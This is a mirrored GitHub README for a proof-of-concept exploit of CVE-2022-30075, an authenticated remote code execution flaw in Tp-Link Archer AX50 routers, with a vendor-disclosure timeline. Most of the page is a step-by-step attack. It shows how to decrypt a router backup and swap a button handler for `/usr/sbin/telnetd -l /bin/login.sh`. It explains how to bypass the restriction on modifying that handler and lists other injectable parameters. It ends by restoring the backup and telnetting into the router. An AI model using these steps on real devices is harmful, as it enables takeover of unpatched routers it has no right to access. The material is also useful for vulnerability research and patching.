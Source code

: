 # CVE-2022-30075

Tp-Link Archer AX50 Authenticated RCE (CVE-2022-30075)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/aaronsvk](https://github.com/aaronsvk) |
| Url      | [https://github.com/aaronsvk/CVE-2022-30075](https://github.com/aaronsvk/CVE-2022-30075)                                               |
| Stars    | 198                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2022-30075
Authenticated Remote Code Execution in Tp-Link Routers

### Affected Devices
If your Tp-Link router has backup and restore functionality and firmware is older than june 2022, it is probably vulnerable

### Tested With
Tp-Link Archer AX50, other tplink routers may use different format of backups and exploit needs to be modified

### PoC
Using exploit for starting telnet daemon on the router
![tplink](https://user-images.githubusercontent.com/28111712/172499966-8a5d486f-c79d-4fe2-95ff-de77d211ab54.png)

### Manual Exploitation
1. login to router web interface  
2. go to advanced -> system -> backup settings
3. decrypt and decompress backup file
- if your router uses different format of backup files you can modify exploit code (class BackupParser) or simply use some tool from github:  
https://github.com/stdnoerr/tp_link_credentials_harvester/blob/master/decrypt.py  
https://github.com/ret5et/tplink_backup_decrypt_2022.bin  
...
4. in decrypted xml file you can find something like this:
```xml
<button name="led_switch">
  <action>pressed</action>
  <button>ledswitch</button>
  <handler>/lib/led_switch</handler>
</button>
```
- replace it with these lines
```xml
<button name="exploit">
  <action>pressed</action>
  <button>ledswitch</button>
  <handler>/usr/sbin/telnetd -l /bin/login.sh</handler>
</button>
```
- there is a restriction that blocks modification of parameter `system.button.handler`, but it can be easily bypassed by changing name of parent xml node (e.g. `name="exploit"`)
- code execution can be achieved not only by changing parameter `system.button.handler`, but also using `ddns.service.ip_script`, `firewall.include.path`, `uhttpd.main`, and others... 
5. compress and encrypt modified backup file
6. go to advanced -> system -> restore settings -> upload modified backup file
7. after reboot, push the led button that triggers execution of injected command `/usr/sbin/telnetd -l /bin/login.sh`
8. remotelly login to router: `telnet 192.168.1.1`

### Timeline
15.03.2022 - Identified vulnerability  
15.03.2022 - Contacted Tp-Link support  
16.03.2022 - Recieved response from Tp-Link  
02.05.2022 - Assigned CVE  
27.05.2022 - Tp-Link released firmware with fixed vulnerability  
07.06.2022 - Published technical details  



## Get the content

```
git clone https://github.com/aaronsvk/CVE-2022-30075
cd CVE-2022-30075
```

{% embed url="https://github.com/aaronsvk/CVE-2022-30075" %}

<figure><img src="https://avatars.githubusercontent.com/u/28111712?v=4" alt=""><figcaption><p>aaronsvk</p></figcaption></figure>
